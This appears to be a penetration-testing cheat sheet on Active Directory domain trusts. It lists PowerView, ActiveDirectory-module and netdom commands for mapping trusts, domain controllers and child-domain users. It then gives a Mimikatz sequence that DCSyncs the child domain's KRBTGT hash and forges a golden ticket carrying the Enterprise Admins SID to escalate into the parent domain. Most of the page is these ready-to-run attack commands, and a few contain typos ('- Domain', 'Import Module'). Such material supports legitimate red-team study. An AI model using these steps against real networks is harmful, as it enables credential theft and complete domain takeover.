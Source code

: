 ```powershell title="Domain Trust: ActiveDirectory Module"
# ActiveDirectory: Importing Module
Import-Module .\ActiveDirectory.ps1

# ActiveDirectory: Viewing Domain Trust Relationships
Get-ADTrust -Filter *
```

```powershell title="Domain Trust: PowerView Module"
# PowerView: Importing Module
Import-Module .\PowerView.ps1

# PowerView: Viewing Domain Trust Relationships
Get-DomainTrust

# PowerView: Viewing Domain Trust Mapping Information
Get-DomainTrustMapping

# PowerView: Checking Users in Child Domain
Get-DomainUser - Domain 'LOGISTICS.HHESENJAN.LOCAL' | Select SamAccountName
```

```powershell title="Domain Trust: CMD"
# CMD: Viewing Domain Trust Relationships
netdom query /domain:'hhesenjan.local' trust

# CMD: Viewing all domain controllers
netdom query /domain:'hhesenjan.local' dc

# CMD: Viewing all workstations and servers
netdom query /domain:'hhesenjan.local' workstation
```

These commands allows us to obtain information's about the domain trust relationships the organization has in their environment. If we have successfully compromised the child domain it's possible for us to use [SIDHistory](https://learn.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) to set a non-existent account to the SID of Enterprise Admin Group and then we can generate a Golden Ticket which allows us to access everything in a parent domain.


```powershell title='SIDHistory On Windows: Mimikatz & PowerView'
# PowerView: Importing Module
Import Module .\PowerView.ps1

# Mimikatz: Starting Mimikatz
.\mimikatz.exe

# Mimikatz: Enabling Debug Privileges
privilege::debug

# Mimikatz: Performing DCSync Attack on Child Domain
lsadump::dcsync /user:LOGISTICS\KRBTGT

# PowerView: Getting Domain SID
Get-DomainSID 

# PowerView: Getting SID of Enterprise Admins Group
Get-DomainGroup -Domain 'hhesenjan.local' -Identity "Enterprise Admins" | Select distinguishedname, objectsid

# Mimikatz: Creating golden ticket
kerberos::golden /user:'hhesenjan-admin' /domain:'logistics.hhesenjan.local' /sid:'<DOMAIN-SID>' /krbtgt:'<KRBTGT-NTLM-HASH>' /sids:'<ENTERPRISE-ADMIN-GROUP-SID>' /ptt

# Klist: Viewing the golden ticket
klist
```
